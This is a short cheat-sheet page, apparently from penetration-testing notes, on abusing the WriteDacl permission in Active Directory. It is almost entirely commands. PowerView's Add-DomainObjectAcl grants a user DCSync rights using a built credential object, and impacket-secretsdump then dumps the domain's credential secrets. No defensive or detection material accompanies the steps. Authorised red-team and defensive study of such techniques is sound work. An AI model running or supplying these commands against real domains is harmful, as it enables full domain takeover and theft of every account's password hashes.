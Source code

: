 ```yaml
---
title: "WriteDacl"
date: 2024-7-12
tags: ["WriteDacl", "active driectory", "ad", "Windows", "dcsync", "secretsdump"]
---
```


### Abuse #1: Add dcsync right to user

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add dcsync right

```console
Add-DomainObjectAcl -PrincipalIdentity <USER> -TargetIdentity '<DOMAIN>\<TARGET_GROUP>' -Rights DCSync -Credential $cred
```

{{< /tabcontent >}}

### 4. Secrets dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

{{< /tabcontent >}}
